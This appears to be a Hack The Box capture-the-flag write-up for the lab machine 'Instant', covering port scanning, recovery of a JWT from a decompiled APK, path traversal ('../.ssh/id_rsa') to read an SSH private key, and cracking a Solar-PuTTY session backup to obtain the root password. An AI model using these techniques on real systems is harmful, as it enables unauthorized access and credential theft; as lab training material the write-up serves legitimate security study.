 ```yaml
---
title: "HTB: Instant"
author: "v3l1d"
date: "2024-11-29"
year: "2024"
---
```


![](attachment/504cbbbf52112e416f8f6f16a708a590.png)

### Port Scanning

```r
nmap -sC -sV -A -T4 -o port_scan 10.10.11.37
Nmap scan report for 10.10.11.37
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
|_  256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://instant.htb/
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: Host: instant.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   54.27 ms 10.10.14.1
2   54.47 ms 10.10.11.37
```

### APK Analysis

![](attachment/77a9ed10882f906d9e25817c321e1a2e.png)

Download **instant.apk** and open it through **JADX**

![](attachment/b4a3310b3d9a6c37b48ea5abceb16cb5.png)

Is signed an API: **/api/v1/view/profile** associated to **mywalletv1.instant.htb**, add this subdomain to **/etc/hosts/**. In the autorhization header we have a JWT Token:

```r
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.**********
```

Try to contact the API providing the JWT token:

![](attachment/56e479b5143e43554b43834fd47bfbb9.png)

```HTTP
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 10:57:42 GMT
Server: Werkzeug/3.0.3 Python/3.12.3
Content-Type: application/json
Content-Length: 236
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{
   "Profile":{
      "account_status":"active",
      "email":"admin@instant.htb",
      "invite_token":"instant_admin_inv",
      "role":"Admin",
      "username":"instantAdmin",
      "wallet_balance":"10000000",
      "wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"
   },
   "Status":200
}

```

Looking deeper in apk's source code:

![](attachment/7d59b53a5de20dba595454f9a5901146.png)

Let's add this domain to /etc/hosts and we'll get the accesso to swagger-ui:

![](attachment/ed549b0eaba7fc96a67fd26e5c7731c9.png)

As we can see some apis are locked, but we can unlock them using the JWT token found in the source code of the **apk**:

![](attachment/fe72cdf91a5b8d6dcd7bd6dc3da5e0a1.png)

By clicking on **Authorize** button we'll be able to unlock all apis in the swagger and going under **Logs** section:

![](attachment/6489e7b31d07142da4ac3bc60e46f79c.png)

Through the api: **/api/v1/admin/read/log?log_file_name=1.log** we are able read files' content:

![](attachment/60bc89f506fcfa153688152cd7e10220.png)

Pass the request in Burp and try include sensible files. Injecting **../.ssh/id_rsa** into **log_file_name** parameter we are able to read **shirohige**'s SSH private key:

![](attachment/993417cd9496bbef357fc9255d4f6fbd.png)
### Initial Access

Let's fix the **id_rsa**'s format in VSCode replacing all spaces and useless characters:

![](attachment/e12537eb0b597dd64c4c0a5e4ce4e79d.png)

Fix **id_rsa** permission and use to break in shirohige's SSH:

```r
-----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    .....
    -----END OPENSSH PRIVATE KEY-----
```

```r
┌──(kali㉿kali)-[~/HTB/Instant]
└─$ chmod 600 id_rsa
```

![](attachment/5b44635c699b9705e3761a3c36bd4d30.png)

```shell
userflag:092473a67eb7a**********
```

### Privilege Escalation

I ran **LinPeas** looking for something allowing privesc and it found:

![](attachment/b90c5fb4b8b4274ba018f5e25047a1a3.png)

I downloaded **instant.db** and opened it through [SQLite Viewer](https://inloop.github.io/sqlite-viewer/) :

![](attachment/29d32cfb01b73d9c2ed2f526d23dfa0f.png)

I tried to crack vanessa's and admin's passwords, but didn't succeeded. Going back to linpeas output i noted that there is a file in **/opt/backups/Solar-PuTTY**:

![](attachment/10b16d0c87ad2586375ca7870f252738.png)

Analyzing file content we have:

![](attachment/7f7056b0fe0d1e977c4f46457cf01cd4.png)

It seems to be a sessions backup file from SolarPuTTY, which may contains useful information about SSH sessions, such as usernames or passwords. After a long research on google i found two useful tools to crack thi **.dat**:

-[SolarPuttyCracker](https://github.com/Ak4izZ/SolarPuttyCracker) for Linux
-[SolarPuTTYDecrypt](https://github.com/VoidSec/SolarPuttyDecrypt/tree/master) for Windows

I used the first one:

```r
┌──(SolarPuttyCracker-HSs_2f3g)─(kali㉿kali)-[~/HTB/Alert/SolarPuttyCracker]
└─$ python3 SolarPuttyCracker.py ../sessions-backup.dat -o ../sessions_cracked -w /usr/share/wordlists/rockyou.txt 
```

After running the command, in the output file we'll get all SSH sessions, with clear credentials, including root password:

![](attachment/31a58751d6d2385c5aa1fecde806e4d7.png)


```json
{
    "Sessions": [
        {
            "Id": "066894ee-635c-4578-86d0-d36d4838115b",
            "Ip": "10.10.11.37",
            "Port": 22,
            "ConnectionType": 1,
            "SessionName": "Instant",
            "Authentication": 0,
            "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
            "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
            "LastTimeOpen": "0001-01-01T00:00:00",
            "OpenCounter": 1,
            "SerialLine": null,
            "Speed": 0,
            "Color": "#FF176998",
            "TelnetConnectionWaitSeconds": 1,
            "LoggingEnabled": false,
            "RemoteDirectory": ""
        }
    ],
    "Credentials": [
        {
            "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
            "CredentialsName": "instant-root",
            "Username": "root",
            "Password": "**********",
            "PrivateKeyPath": "",
            "Passphrase": "",
            "PrivateKeyContent": null
        }
    ],
    "AuthScript": [],
    "Groups": [],
    "Tunnels": [],
    "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}                                 
```

Use contained root password to login in it and catch the flag:

![](attachment/84594a655a1f071ca4fbed41ef516d6a.png)

```shell
rootflag:727938c0341**********
```






